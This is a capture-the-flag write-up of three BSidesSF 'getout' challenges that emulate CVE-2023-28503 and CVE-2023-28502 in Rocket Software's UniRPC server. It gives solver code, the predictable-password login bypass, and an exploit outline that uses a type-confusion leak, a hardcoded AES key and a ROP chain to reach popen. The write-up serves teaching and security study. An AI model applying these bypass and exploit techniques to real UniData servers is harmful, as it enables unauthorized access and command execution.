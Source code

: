 ## `getout`

`Getout` is a series of three different challenges, based on a
[research project](https://www.rapid7.com/blog/post/2023/03/29/multiple-vulnerabilities-in-rocket-software-unirpc-server-fixed/)
I did over the winter on Rocket Software's UniData application. UniData (and
other software they make) comes with a server called UniRPC, which functions
very similarly to `getoutrpc`.

My intention for the three parts of `getout` are:

* Solving `getout1-warmup` requires understanding how the RPC protocol works,
  which, as I said, is very similar to UniRPC
* In `getout2-gettoken`, I emulated [CVE-2023-28503](https://github.com/rbowes-r7/libneptune/blob/main/udadmin_authbypass_oscommand.rb) as best I could
* In `getout3-apply`, I emulated [CVE-2023-28502](https://github.com/rbowes-r7/libneptune/blob/main/udadmin_stackoverflow_password.rb) but made it much, much harder to exploit

Let's take a look at each!

### `getout1-warmup`

The warmup is largely about reverse engineering enough of the protocol to
implement it. You can find `libgetout.rb` in my solution, but the summary is
that:

* You connect to the RPC service
* You send messages to the server, which are basically just a header, then a
  body comprised of a series of packed fields (integers, strings, etc)
* The first message starts with an integer opcode:
  * Opcode 0 = "list services"
  * Opcode 1 = "execute a service"
* Once a service is executed, a different binary takes over, which implements
  its own sub-protocol (though the packet formats are the same)

For `getout1-warmup`, you just have to connect to the service and it immediately
sends you the flag. On the server, it looks like:

```c
int main(int argc, char *argv[])
{
  int s = atoi(argv[1]);

  packet_body_t *response = packet_body_create_empty();
  packet_body_add_int(response, 0);
  packet_body_add_file(response, FLAG_FILE, 1);
  packet_body_add_file(response, NARRATIVE_FILE, 0);
  packet_body_send(s, 2, response);
  packet_body_destroy(response);

  return 0;
}
```

And on the client, here's the code:

```ruby
begin
  s = connect(*get_host_port())
  flag, narrative = use(s, 'ping')

  puts "Fetched narrative: #{ narrative }"
  check_flag(flag, terminate: true)
  exit 0
ensure
  s.close if s
end
```

And running my solution:

```
$ ruby ./solve.rb 
Loading checker...
--------
Challenge name:        getout1-warmup
Expected flag:         CTF{your-client-seems-to-be-working} ("4354467b796f75722d636c69656e742d7365656d732d746f2d62652d776f726b696e677d")
Using TCP host/port:   getout1-warmup-e6a12797.challenges.bsidessf.net:1337
--------
Connected to RPC service! RPC services available:
* ping
* gettoken
* apply

Fetched narrative: Welcome to The Program, human! Your copy of Get Out Solutions seems to be working. Standby for further instructions!
Fetched flag: CTF{your-client-seems-to-be-working} ("4354467b796f75722d636c69656e742d7365656d732d746f2d62652d776f726b696e677d")
Looks good!
```

### `getout2-gettoken`

As I already mentioned, this is designed to emulate CVE-2023-28503, which is
an authentication bypass vulnerability in Rocket Software's UniData software.
In the original vulnerability, the username `:local:` had a predictable
password; specifically, the password for `:local:` was always
`<username>:<uid>:<gid>`, where `username` is a username on the system, `uid`
is the associated user id, and `gid` is a non-zero value.

I implemented a very similar function for `getout2-gettoken`, which looks like:

```c
  if(!strcmp(username, ":testuser:")) {
    // Test user

    char *uid = strchr(password, ':');
    if(!uid) {
      return 0;
    }

    *uid = '\0';
    uid++;

    char *gid = strchr(uid, ':');
    if(!gid) {
      return 0;
    }
    *gid = '\0';
    gid++;

    struct passwd *userinfo = getpwnam(password);
    if(!userinfo) {
      return 0;
    }

    if(userinfo->pw_uid != atoi(uid)) {
      return 0;
    }

    if(!atoi(gid)) {
      return 0;
    }


    return 1;
```

So basically, the username is `:testuser:`, but otherwise the bypassable login
is identical to CVE-2023-28503.

### `getout3-apply`

The final part of this challenge was designed to be similar to CVE-2023-28502,
but I decided to make it a bit harder.

The core issue is using `strncat` multiple times with the same buffer size, to
concatenate multiple arguments:

```c
  strncat(buffer + strlen(buffer), body->args[1].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[2].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[3].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[4].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[5].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), uuid, REGISTER_BUFFER_SIZE);
```

The problem is that `strncat` terminates on a NUL byte, and we want to return
to an address to call `popen`! Luckily, immediately after calling the `strncat`
functions, the message is encrypted:

```c
  size_t length = encrypt((uint8_t*)buffer, strlen(buffer) + 1);
  send_simple_binary_response(s, 0, (uint8_t*)buffer, length);
```

The key/IV for the encryption algorithm are hardcoded into the binary, which
means we can predict the output of the encrypted block.

To write an exploit, we build a ROP stack containing all the NUL bytes we want:

```ruby
  puts "* Generating a ROP Chain..."
  ROP = [
    POP_EDI_RET,
    CMD_ADDRESS,
    POP_ESI_POP_R15_RET,
    R_ADDRESS,
    rand(0..0xffffffffffffffff),
    POPEN_ADDRESS,
    rand(0..0xffffffffffffffff),
  ].pack('QQQQQQQ')
  puts " => #{ ROP.unpack('H*') }"
  puts
```

Then we *decrypt* the payload, which means it'll *encrypt* to our ROP string:

```ruby
  puts "* Encrypting the ROP chain with padding..."
  encrypted_payload = get_encrypted_string(RETURN_OFFSET, rop)
  puts " => #{ encrypted_payload.unpack('H*') }"
```

The `get_encrypted_string` function is where we *decrypt* the payload:

```ruby
  def get_encrypted_string(offset, data)
    padding = 0x41.chr * offset

    cipher = OpenSSL::Cipher.new('AES-128-CBC')
    cipher.decrypt
    cipher.padding = 0
    cipher.key = KEY
    cipher.iv = IV

    str = padding + data
    while(str.length % 16 != 0)
      str.concat("\0")
    end

    return cipher.update(str) + cipher.final()
  end
```

If the *encrypted* string has a NUL byte, we try again until it doesn't.

The final thing is, we have access to `popen`, but we need a command string with
an associated address! We actually take advantage of a type-confusion bug in
the binary that leads to a memory leak in order to get known text at a known
address. 

When getting the user's opcode from a packet, instead of using a convenience
function like `packet_read_int_arg`, we instead access the union directly:

```c
  uint64_t opcode = body->args[0].value.i.value;
```

If that argument happens to be the string type, it winds up being the address
of the string:

```c
typedef struct {
  uint64_t value;
} arg_int_t;

typedef struct {
  char *value;
} arg_string_t;

// [...]

typedef union {
  arg_int_t i;
  arg_string_t s;
  // [...]
} arg_t;
```

Then when it's displayed, we get the string's address:

```c
  send_simple_response(s, ERROR_UNKNOWN_OPCODE, "Unknown opcode: %ld", opcode);
```

So basically, our exploit is:

* Use the type confusion on unknown opcodes to get an address to a payload string
* Generate a ROP stack that concludes with a call to `popen`
* *Decrypt* the ROP stack so that it'll later *encrypt* to the real ROP stack
* Send the whole ROP stack spread across multiple `strncat` fields
* Profit!
